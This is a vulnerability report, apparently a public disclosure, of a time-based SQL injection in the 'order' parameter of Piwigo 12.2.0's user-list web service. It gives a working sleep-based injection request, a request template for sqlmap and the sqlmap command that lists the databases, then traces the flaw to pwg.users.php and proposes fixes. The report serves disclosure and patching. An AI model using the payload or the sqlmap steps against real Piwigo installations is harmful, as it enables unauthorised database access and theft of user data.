 ### Vulnerability details


**vulnerability type:** SQL injection 

**vulnerability versions:** piwigo 12.2.0

**vulnerability Url:** [http://10.92.66.148/piwigo/ws.php?format=json&method=pwg.users.getList](http://10.92.66.148/piwigo/ws.php?format=json&method=pwg.users.getList)

**SQL injected fields exist**：**order**
### verification procedure 


log on to the system and go user-Management-user list 
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645694349612-48bd1e16-2a86-4765-8660-cd49cbe5da63.png#clientId=u15ad27cc-f5e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=657&id=u1d142fa1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=657&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=88030&status=done&style=none&taskId=u09ce7338-8d20-4cc9-9c9e-b96e87ebb61&title=&width=1920)
Vulnerability Data：
```java
POST /piwigo/ws.php?format=json&method=pwg.users.getList HTTP/1.1
Host: 10.92.66.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 101
Origin: http://10.92.66.148
Connection: close
Referer: http://10.92.66.148/piwigo/admin.php?page=user_list
Cookie: pwg_id=pkl5bk0ifq21ss8nb2j126u55j; pwg_display_thumbnail=no_display_thumbnail; pwg_album_manager_view=tile; pwg_plugin_manager_view=classic; pwg_user_manager_view=line; PHPSESSID=2a8da2cbc685d8412cbf8e64

display=all&order=(select*from(select+sleep(5)union/**/select+1)a)&page=0&per_page=5&exclude%5B%5D=2
```
Modify the exclude[] field and use Sleep(5) to execute SQL statements with a delay of 5 seconds. As shown in the following figure, data is returned with a delay of 5 seconds, proving that SQL injection exists:
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645695083763-ee8c8fc9-896d-475c-8418-9bfddb38f776.png#clientId=ub56e8d03-d575-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=963&id=u969d1d1f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=963&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=196586&status=done&style=none&taskId=ua7df5d8f-7e92-4847-9b5f-8cc46deac78&title=&width=1920)
Use SQLmap to verify vulnerabilities. Data packets are marked as injection points: 
```java
POST /piwigo/ws.php?format=json&method=pwg.users.getList HTTP/1.1
Host: 10.92.66.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 55
Origin: http://10.92.66.148
Connection: close
Referer: http://10.92.66.148/piwigo/admin.php?page=user_list
Cookie: pwg_id=pkl5bk0ifq21ss8nb2j126u55j; pwg_display_thumbnail=no_display_thumbnail; pwg_album_manager_view=tile; pwg_plugin_manager_view=classic; pwg_user_manager_view=line; PHPSESSID=2a8da2cbc685d8412cbf8e64

display=all&order=*&page=0&per_page=5&exclude%5B%5D=2
```
Execution Parameters 
**py -3 sqlmap.py -r text.txt  --batch --dbs**
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645694916505-5ebb9e56-d114-432a-841f-90d38407fdcb.png#clientId=ub56e8d03-d575-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=670&id=u1b1c00f0&margin=%5Bobject%20Object%5D&name=image.png&originHeight=670&originWidth=1712&originalType=binary&ratio=1&rotation=0&showTitle=false&size=79192&status=done&style=none&taskId=u08c49590-014d-4335-a043-56a830e0d0d&title=&width=1712)
You can see that the database name has been read, so you can Dump sensitive data directly from the database. Furthermore, if the database has DBA privileges, an attacker can take over the server.
​

### Vulnerability analysis


By analyzing the PHP files imported from ws.php and the parameters in the packet, you can trace it back to **pwg.users.php**
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645696554932-7f0ac51d-45fb-4fdb-8b7e-5c21bfec87b5.png#clientId=u4414a1b4-c4cf-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=847&id=u748295a8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=847&originWidth=1835&originalType=binary&ratio=1&rotation=0&showTitle=false&size=174810&status=done&style=none&taskId=u5e6077ec-ab55-4b40-9207-b691eb9fd3e&title=&width=1835)

pwg.users.php is located in **\include\ws_functions\pwg.users.php**, and the order parameter is inserted into the SQL statement to join the query. And the SQL statement does not verify the validity of the passed parameters, resulting in SQL injection.
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645696679194-a2ac5790-faef-4260-a87a-cc7f9d7840d9.png#clientId=u4414a1b4-c4cf-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=525&id=u7e91d845&margin=%5Bobject%20Object%5D&name=image.png&originHeight=525&originWidth=1747&originalType=binary&ratio=1&rotation=0&showTitle=false&size=101923&status=done&style=none&taskId=ua6550307-cc5f-4ffb-9512-092256505c3&title=&width=1747)


### Vulnerability Fix
​

1. Precompile SQL statements in query parameters and filter special characters such as single and double quotation marks.
2. Perform a global check on SQL injection to prevent SQL injection.
​

